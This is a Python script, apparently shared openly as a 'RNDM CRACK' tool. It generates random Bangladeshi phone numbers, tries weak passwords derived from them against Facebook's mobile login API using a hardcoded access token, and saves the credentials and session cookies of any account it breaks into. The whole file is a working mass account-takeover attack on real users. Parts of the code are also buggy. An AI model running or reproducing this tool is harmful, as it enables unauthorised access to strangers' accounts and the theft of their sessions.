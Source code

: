 # AYAN-69
RNDM-2
#--------------------- [ INFO ] -------------------#
#DEVELOPER : AYAN
#CODE BY : AYAN
#OPEN SOURCE BY : AYAN-X [TANIM HOSSAIN]
#TOOL : RNDM CHECK
#INJOY THE OPEN SOURCE 
#ALLAH HAFIZ
#--------------------- [ MODEL ] -------------------#
import os
import time
import sys
from os import path
import urllib
import pip
import base64
import zlib
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
try:
        import os,requests,json,time,re,random,sys,uuid,string,subprocess
        from string import *
        from concurrent.futures import ThreadPoolExecutor as tred
except ModuleNotFoundError:
        os.system(f'pip install requests futures==2 > /dev/null')
except:pass
#--------------------- [ SEX ] -------------------#
jan = []
loop=0
oks=[]
cps=[]
twf=[]
#--------------------- [ CODE ] -------------------#
W='\033[1;37m' #WHITE
G='\033[38;5;46m'
F='\033[38;5;45m'
R='\033[38;5;196m'
#--------------------- [ LOGO ] -------------------#
fuck = """

  _____   _____   _   _ 
 / _ \ \ / / _ \ | \ | |
/ /_\ \ V / /_\ \|  \| |
|  _  |\ /|  _  || . ` |
| | | || || | | || |\  |
\_| |_/\_/\_| |_/\_| \_/   
===================================
[+] ADMIN : AYAN CHOWDHURY
[+] GITHUB: AYAN-69
[+] TOOL  : RNDM CRACK
[+] STATES: FREE
=================================== """
#--------------------- [ DEF-LOGO X CLEAR ] -------------------#
def x():
    os.system('clear')
    print(fuck)
#--------------------- [ DEF-XNXX ] -------------------#
def xnxx():
    print(f'{W}===================================')
#--------------------- [ MAIN ] -------------------#
def AYANxx():
    x()
    print('[1] RNDM CRACK')
    print('[2] EXIT');xnxx()
    xtx = input('[?] CHOICE : ')
    if xtx in '1':
        rndmx()
    elif xtx in '2':
        print('Allah hafiz ')
        os.system('exit')
#--------------------- [ RNDM ] -------------------#
def rndmx():
    x()
    print('[+] BD SIM CODE : 017,019,018,016 ');xnxx()
    dog = input('[?] CODE : ')
    x()
    try:
        print('[+] LIMIT : 999,9999,99999');xnxx()
        limit = int(input('[?] LIMIT : '))
    except ValueError:
            limit = 5000
    for nmbr in range(limit):
            xxx = ''.join(random.choice(string.digits) for _ in range(8))
            jan.append(xxx)
    with tred(max_workers=30) as tanox:
            x()
            tl = str(len(jan))
            print(f'[+] TOTAL UID : {str(len(jan))}')
            print(f'[+] USE JAPAN APN COMING MORE OK IDS.......');xnxx()
            for psx in jan:
                ids = dog+psx
                passlist = [psx,ids,ids[:8],ids[:7],'bangla']
                tanox.submit(sexx,ids,passlist)
    xnxx()
    print(f'[+] TOTAL OK -{str(len(oks))}')
    xnxx()
#--------------------- [ MTHD ] -------------------#
def sexx(ids,passlist):
        global loop
        global oks
        sys.stdout.write(f'\r\r[+] [AYAN FIND] [{loop}] [OK:-{len(oks)}]')
        sys.stdout.flush()
        try:
                for pas in passlist:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        cat = {
                        
                        
                        
                        
                        
                                'adid':adid,
                                'format':'json',
                                'device_id':device_id,
                                'email':ids,
                                'password':pas,
                                'generate_analytics_claims':'1',
                                'credentials_type':'password',
                                'source':'login',                              
                                'error_detail_type':'button_with_disabled',                                
                                'enroll_misauth':'false',                             
                                'generate_session_cookies':'1',
                                'generate_machine_id':'1',
                                'fb_api_req_friendly_name':'authenticate',
                        }
                        
                        
                        
                        
                        
                        AYAN={
                        
                        
                        
                        
                        
                                'Authorization':f'OAuth {accessToken}',
                                'X-FB-Friendly-Name':'authenticate',
                                'X-FB-Connection-Type':'unknown',
                                'User-Agent':None,
                                'Accept-Encoding':'gzip, deflate',
                                'Content-Type': 'application/x-www-form-urlencoded',
                                'X-FB-HTTP-Engine': 'Liger'
                                }
                                
                                
                                
                                
                                
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=cat,headers=AYAN).json()
                        if 'session_key' in po:
                                try:
                                        uid = po['uid']
                                except:
                                        uid = ids
                                if str(uid) in oks:
                                        break
                                else:
                                        print(f'\r\r\033[38;5;46m[+] [AYAN-OK] {str(uid)} \_/ {pas} ')
                                        fxxk = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        print(f'=COOKIE= : {fxxk}')
                                        open('/sdcard/X-OK.txt','a').write(str(uid)+'|'+pas+'\n')
                                        oks.append(str(uid))
                                        break
                        elif twf in str(po):
                                try:
                                        uid = po['error']['error_data']['uid']
                                except:
                                        uid = idf
                                if uid in oks:pass
                                else:
                                        print(f'\r\r\033[38;5;45m[+] [AYAN-2F] {uid} \_/ {pas}\033[1;37m')
                                        open('/sdcard/X-2F.txt','a').write(str(uid)+'|'+pas+'\n')
                                        twf.append(str(uid))
                                        break
                        elif 'www.facebook.com' in po['error']['message']:
                                try:
                                        uid = po['error']['error_data']['uid']
                                except:
                                        uid = ids
                                if uid in oks:pass
                                else:
                                        print('\r\r\033[38;5m196m[+] [AYAN-CP] '+str(uid)+' \_/ '+pas+'\033[1;37m')
                                        open('/sdcard/X-CP.txt','a').write(str(uid)+'|'+pas+'\n')
                                        cps.append(str(ids))
                                        break
                        else:continue
                loop+=1
        except Exception as e:
                pass
#--------------------- [ END ] -------------------#
AYANxx()
